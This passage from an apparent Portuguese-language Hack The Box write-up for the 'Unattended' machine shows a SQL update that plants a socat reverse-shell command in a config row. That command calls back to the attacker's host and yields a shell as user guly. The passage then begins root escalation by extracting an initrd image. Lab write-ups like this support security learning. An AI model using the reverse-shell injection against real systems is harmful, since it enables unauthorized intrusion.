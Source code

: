 `/home/guly/checkbase.pl;/home/guly/checkplugins.pl;`

Infelizmente não consigo ver oq tem nele, mas possivelmente deve executar algum tipo de comando... então vamos alterar ele para nos dar um reverse shell, vou utilizar o `socat` pra praticar ele. A query ficar assim

`update config set option_value = "socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.40:443" where id = 86;`

Verificamos também se o valor foi alterado

`select * from config where id = 86;`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-unattended/U_ng22.png)

E recebemos um shell segundos depois

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-unattended/U_ng23.png)

Show, agora somos `guly`

# Escalação de Privilégio (guly - root)

Bom, agora vamos fazer a escalação de privilégio do usuário `guly` para o `root`. Outra parte da máquina extremamente difícil para mim

Primeira coisa a se notar são os groups que o guly faz parte... Ele faz parte do `grub` e esse grupo não é comum

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-unattended/U_priv.png)

Verificamos todos os arquivos que esse group, ou pelo menos que eu posso ver

`find / -group grub 2>/dev/null`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-unattended/U_priv1.png)

Apenas um... Vamos lá, tentar explicar do que se trata. Quando o sistema linux inicia, ele primeiro monta um RAM disk (initdr) como parte do procedimento de boot do kernel. Esse "disco" tem a minima quantidade de executáveis e estrutura de diretórios para carregados pra se fazer possível e disponível a leitura do file system do root

Vamos passar esse arquivo para nossa máquina para melhor analizar ele, demora um pouquinho pelo tamanho do arquivo...

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-unattended/U_priv2.png)

Agora com o `zcat` eu faço a descompressão total dele

`zcat initrd.img-4.9.0-8-amd64 > arquivo`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-unattended/U_priv3.png)

Criou um arquivo `cpio`, com o cpio eu extraio todo ele, dentro de uma pasta

`zcat initrd.img-4.9.0-8-amd64 | cpio -idm`
